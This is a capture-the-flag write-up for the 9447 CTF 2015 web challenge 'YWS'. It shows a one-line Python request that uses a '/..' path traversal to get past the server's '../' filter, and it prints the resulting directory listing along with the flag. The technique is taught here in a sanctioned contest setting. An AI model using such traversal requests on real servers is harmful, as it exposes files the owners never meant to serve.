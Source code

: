 # 9447 CTF 2015 2015: YWS

**Category:** Web
**Points:** 130
**Solves:** 197
**Description:**

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
> 
> The web page is at <http://yws-fsiqc922.9447.plumbing>
> 
> Hint! Where does the website *not* want you to go?


## Write-up

We poked around a lot at this challenge. Tried several different inputs and URLs. Only
later we realized that we could have looked at the binary of [BWS](/9447-ctf-2015/exploitation/bws)
We realized that there was something funky going on regarding the filtering of the
paths. So after poking around a little bit, I found that the following works:
```
import requests as r
print(r.get("http://yws-fsiqc922.9447.plumbing/..").content)
```
And we got back the directory listing contains the flag.
```
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
[...]
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
[...]
</ul>
<hr>
</body>
</html>
```

Apparently the webserver filtered out `../` but not `..`. We had troubles 
using the browser or curl to fetch this. Probably because they automatically 
append a `/` character or something like that.

## Other write-ups and resources

* <http://blog.jclariviere.com/posts/ctf-writeup-9447-ctf-2015-yws/>
* <http://pastebin.com/jzd6DVMu>
